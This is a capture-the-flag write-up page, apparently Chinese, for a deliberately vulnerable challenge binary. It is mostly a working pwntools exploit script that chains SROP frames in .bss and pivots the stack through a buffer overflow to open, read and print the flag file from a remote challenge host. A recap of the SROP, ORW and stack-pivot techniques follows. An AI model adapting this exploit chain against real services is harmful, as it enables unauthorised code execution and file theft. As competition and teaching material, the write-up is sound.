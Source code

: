 `#!/usr/bin/env python3 from pwn import *  # —— 环境 & ELF 加载 ————————————————————————— context(os='linux', arch='amd64', log_level='debug') elf = ELF('./chall') libc= ELF('./libc.so.6') ld  = ELF('./ld-linux-x86-64.so.2')  if args.LOCAL:     # 本地调试：预加载给定 libc/ld     p = process([ld.path, elf.path], env={'LD_PRELOAD': libc.path}) else:     # 远程靶机     p = remote('110.42.47.169', 35589)  # —— 消耗首个提示 ——   p.recvuntil(b'easyhack\n')  # —— 常用 Gadget & 段地址 ————————————————————— pop_rax     = 0x401193       # mov rax,15; ret syscall_ret = 0x40118a       # syscall; nop; pop rbp; ret leave_ret   = 0x40136c       # leave; ret  bss         = elf.bss()      # 0x404020 flag_name   = bss            # 我们放 "flag\0" 的地方 flag_buf    = flag_name + 8  # read 后把 flag 放在这里 chain_addr  = bss + 0x100    # 真实 ROP+SROP 链的起始  # —— 第1阶段 Payload：写 “flag\0” + SROP 链 到 .bss ————— payload  = b'flag\x00'.ljust(8, b'\x00') payload  = payload.ljust(chain_addr - bss, b'\x00')  frames = []  # ——— 段1：open("./flag", O_RDONLY) f = SigreturnFrame() f.rax = constants.SYS_open f.rdi = flag_name f.rsi = 0 f.rdx = 0 f.rip = syscall_ret frames.append(f)  # ——— 段2：read(3, flag_buf, 0x100) f = SigreturnFrame() f.rax = constants.SYS_read f.rdi = 3 f.rsi = flag_buf f.rdx = 0x100 f.rip = syscall_ret frames.append(f)  # ——— 段3：write(1, flag_buf, 0x100) f = SigreturnFrame() f.rax = constants.SYS_write f.rdi = 1 f.rsi = flag_buf f.rdx = 0x100 f.rip = syscall_ret frames.append(f)  # —— 计算 rsp 并拼链 ————————————————————————— offset = 0 chain  = b'' for frm in frames:     seglen = (8   # dummy for pop rbp             + 8   # mov rax,15; ret             + 8   # syscall; pop rbp; ret             + len(bytes(frm)))     offset   += seglen     frm.rsp   = chain_addr + offset      # 真正拼接     chain    += p64(0)           # 补 pop rbp     chain    += p64(pop_rax)     chain    += p64(syscall_ret)     chain    += bytes(frm)  payload += chain  # —— 发送第1阶段 Payload —————————————————————— p.send(payload)  # —— 消耗第二个提示 ——   p.recvuntil(b'Do u know what is SUID?')  # —— 第2阶段 Pivot —— 32字节到 saved RBP pivot  = b'A' * 32 pivot += p64(chain_addr)  # 新的 RBP pivot += p64(leave_ret)   # leave; ret p.send(pivot)  # —— 最终接收 flag ——  # write(1, flag_buf, 0x100) 会把它直接输出来 flag = p.recv(0x100) print(">> FLAG:", flag.decode('ascii', errors='ignore'))`

---

## 五、核心知识点回顾

1. **SROP（Sigreturn Oriented Programming）**：
    
    - 利用 `SYS_rt_sigreturn` 恢复任意寄存器状态（包括 `rax/rdi/rsi/rdx`）
        
    - 在内核帮你 restore 之后，`rip` 指向真正的 `syscall` gadget，就可以直接发系统调用。
        
2. **ORW（Open-Read-Write）**：
    
    - 受限于 seccomp，不能 `execve`，只好用 `open`→`read`→`write` 的三步拿 flag。
        
3. **栈 pivot（leave; ret）**：
    
    - 通过 `saved RBP/RIP` 把栈指向 `.bss`，让我们在可写区域执行任意 ROP。
        
4. **pwntools SigreturnFrame**：
    
    - 方便地构造 `struct sigcontext`，只要给 `.rax/.rdi/.rsi/.rdx/.rip/.rsp` 赋值，`bytes(frame)` 就是内核需要的格式。
        
5. **偏移计算**：
    
    - 第一次 `read(0, .bss, 0x1000)` 给了我们大空间来存放链。
        
    - 第二次 `read` 固定只能覆盖 32 字节 buffer + 8 字节 RBP + 8 字节 RIP → 写入 pivot。